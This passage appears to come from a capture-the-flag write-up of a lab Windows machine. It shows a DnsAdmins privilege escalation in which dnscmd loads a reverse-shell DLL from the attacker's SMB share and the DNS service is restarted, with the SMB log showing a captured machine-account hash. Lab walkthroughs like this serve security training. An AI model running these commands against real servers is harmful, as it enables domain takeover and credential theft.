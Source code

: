 
#### Execute Attack

I’ll need to run three commands:

  1. Set the server level plugin to be `rev.dll` on my share.
  2. Stop the DNS server.
  3. Start the DNS server.

I’ll need to do this all within a minute (or less) because, as `note.txt` told
me, things revert quickly.

With `nc` listening, I execute the attack:

    
    
    *Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.11\s\rev.dll
    
    Registry property serverlevelplugindll successfully reset.
    Command completed successfully.
    
    *Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute stop dns
    
    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 3  STOP_PENDING
                                    (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x1
            WAIT_HINT          : 0x7530
    *Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute start dns
    
    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 2  START_PENDING
                                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x0
            WAIT_HINT          : 0x7d0
            PID                : 2644
            FLAGS              :
    

First I’ll see the connection on the SMB server:

    
    
    [*] Incoming connection (10.10.10.169,50159)
    [*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
    [*] User RESOLUTE\RESOLUTE$ authenticated successfully
    [*] RESOLUTE$::MEGABANK:4141414141414141:fb2d88a95f9cf568c546d27ebe4f4442:010100000000000000a96d1a1fced50122c6db1ce67cdf66000000000100100075006300660071006d006e00520061000300100075006300660071006d006e00520061000200100068006b007200
    490048006100620041000400100068006b007200490048006100620041000700080000a96d1a1fced50106000400020000000800300030000000000000000000000000400000f4655d8aeeeb9ce2a98b0b270af2bf358acccfb17c8276e41e29b51b4ecddc1a0a001000000000000000000000
    000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310031000000000000000000
    